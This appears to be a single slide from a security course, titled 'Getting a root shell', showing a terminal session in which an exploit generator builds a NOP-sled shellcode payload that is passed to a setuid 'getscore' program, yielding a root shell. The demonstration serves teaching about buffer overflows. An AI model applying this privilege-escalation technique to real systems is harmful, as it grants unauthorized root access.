

# Getting a root shell
[xou@localhost simon]$ ./exploit_gen_with_esp 0xbffff830 160 120
Length of shell code: 45
Using sp: 0xbffff830
Using address: 0xbffff7b8
NOP sled: 103 bytes

[xou@localhost simon]$ cd /root/course_scores/
[xou@localhost course_scores]$ ./getscore aaa $EGG
sh-2.05b#
sh-2.05b# whoami
root
sh-2.05b#

35